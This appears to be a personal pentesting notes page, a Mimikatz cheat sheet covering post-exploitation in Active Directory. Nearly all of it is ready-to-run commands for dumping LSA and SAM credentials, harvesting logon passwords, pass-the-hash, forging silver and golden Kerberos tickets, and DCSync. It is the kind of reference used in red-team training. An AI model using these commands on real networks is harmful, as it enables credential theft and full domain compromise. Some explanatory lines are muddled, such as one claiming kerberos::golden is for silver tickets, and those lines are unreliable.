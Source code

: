 # Mimikatz
Used in Post Privilege Esculation in maintaining [[Persistence]] through credential harvesting and [[Active-Directory-Lateral-Movement]]

```powershell
privilege::debugv # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### lsadumping

```powershell
privilege::debug
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

## Kerberos Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos and [[Active-Directory-Kerberos-Defined]]. It is credential base so understanding [[Active-Directory-Authentication]] in part for  [[Active-Directory-Privilege-Escalation]] and [[Active-Directory-Lateral-Movement]] as it is capable of command execution.

### Kerberos Tickets
```powershell
kerberos::list /export
```

### Overpass the Hash Attacks
```powershell
sekurlsa::logonpasswords # Or another NTLM obtaining method
sekurlsa::pth /user:$admin /domain:$domain.com /ntlm:$NThash /run:Powershell.exe
```

### Silver Ticket Attacks
Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.
```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means injected directly into memory
```

### Golden Ticket Attacks 
Don't be confused `kerberos::golden` is for Silver Ticket Attacks
```powershell
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

With Domain Admin group access:
```powershell
privilege::debug
lsadump::lsa /patch
# Look for krbtgt
```

Creating the golden ticket and injecting it into memory does not require any administrative privileges, and can even be performed from a computer that is not joined to the domain. 
Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`, then open command prompt with elevated privileges `misc::cmd`.

```powershell 
kerberos::purge # Removed cached tickets
kerberos::golden /user:hacker /domain:$domainname.com /sid:$sid /krbtgt:$krbtgt-hash /ptt 
misc::cmd
```

Mimikatz provides two sets of default values when using the golden ticket option:
1. User IP - default set: 500, RID of builtin Administrator
2. Group IP - Domain Admins group

### DCSync Attacks
Visit [[Active-Directory-Persistence]] for details.

```powershell
lsadump::dcsync /user:Administrator
```